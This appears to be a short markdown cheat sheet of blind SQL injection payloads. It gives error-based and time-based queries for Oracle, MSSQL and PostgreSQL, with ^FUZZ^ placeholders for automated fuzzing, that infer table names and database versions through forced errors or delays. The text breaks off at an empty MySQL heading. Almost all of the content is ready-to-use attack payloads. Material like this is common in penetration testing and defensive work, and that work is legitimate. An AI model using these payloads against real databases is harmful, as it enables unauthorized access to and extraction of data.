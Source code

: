 # SQL Injection Payloads

## Information Inference

## Enumerate Version

### Oracle (error based)

```sql
((SELECT CASE WHEN SUBSTR((SELECT table_name FROM (SELECT rownum rn, table_name FROM all_tables) WHERE rn = ^FUZZ^),1,1)='^FUZZ^' THEN TO_CHAR(1/0) ELSE NULL END FROM dual))
```

### Oracle (time based)

```sql
((SELECT CASE WHEN SUBSTR((SELECT table_name FROM (SELECT rownum rn, table_name FROM all_tables) WHERE rn = ^FUZZ^),1,1)='^FUZZ^' THEN dbms_pipe.receive(('a'),10) ELSE NULL END FROM dual))
```

### MSSQL (error based)

```sql
IF ((SELECT SUBSTRING((SELECT @@version),1,1))='m') BEGIN THROW 500001, 'THING', 1; END
```

### MSSQL (time based)

```sql
IF ((SELECT SUBSTRING((SELECT @@version),1,1))='m') WAITFOR DELAY '0:0:02'
```

<aside>
💡 PostgreSQL does not have a way to trigger conditional errors without being inside a function or a DO block. Both of which have a lot of likely bad characters.

</aside>

### PostgreSQL (error based)

```sql
SELECT CASE WHEN (SELECT SUBSTRING((SELECT version()), 1, 1))='P' THEN 1/(SELECT 0) ELSE NULL END
```

### PostgreSQL (time based)

```sql
SELECT CASE WHEN (SELECT SUBSTRING((SELECT version()), 1, 1))='P' THEN (SELECT pg_sleep(5)) ELSE NULL END
```

### MySQL (error based)
